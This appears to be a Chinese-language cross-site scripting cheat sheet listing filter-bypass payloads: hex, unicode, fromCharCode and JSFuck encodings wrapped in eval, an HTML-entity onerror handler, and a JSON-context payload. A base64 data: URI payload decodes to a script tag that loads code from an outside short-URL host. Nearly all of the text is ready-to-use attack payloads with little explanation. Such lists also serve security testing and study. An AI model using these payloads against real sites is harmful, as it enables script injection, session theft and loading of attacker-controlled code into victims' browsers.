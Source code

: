        1. js16进制

          ```javascript
          <script>eval(“js+16进制加密”)</script>
          <script>eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")</script>
          编码要执行的语句↓
          Alert(“xss”)
          ```

       2. js unicode

          ```javascript
          <script>eval("unicode加密")</script>
          //js unicode加密 解决alert()被过滤
          <script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029")</script>
          ```

       3. String.fromCharCode函数（不需要任何引号，必须函数内）

          ```javascript
          <script>eval(String.fromCharCode编码内容))</script>
          <script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>
          ```

       4. jsfuck版本

          ```html
          <script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
          ```

       5. HTML编码：

           ```html
              <img src='1' onerror='aler&#x0074;(1)'>
           ```

       6. base64编码（仅data支持）

            ```html
               <object data="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUnE5bjZ6dT48L3NjcmlwdD4="></object>
               格式：
               Data:<mime type>,<encoded data>
               Data //协议
               <mime type> //数据类型
               charset=<charset>  //指定编码
               [;base64] //被指定的编码
               <encoded data> //定义data协议的编码
               特点：不支持IE
            ```

- 存在json数据解析 context： `<?=json_encode($_GET['x'])?>` payload： `?x=<img+src=x+onerror=ö-alert(1)>`

- SVG 标签
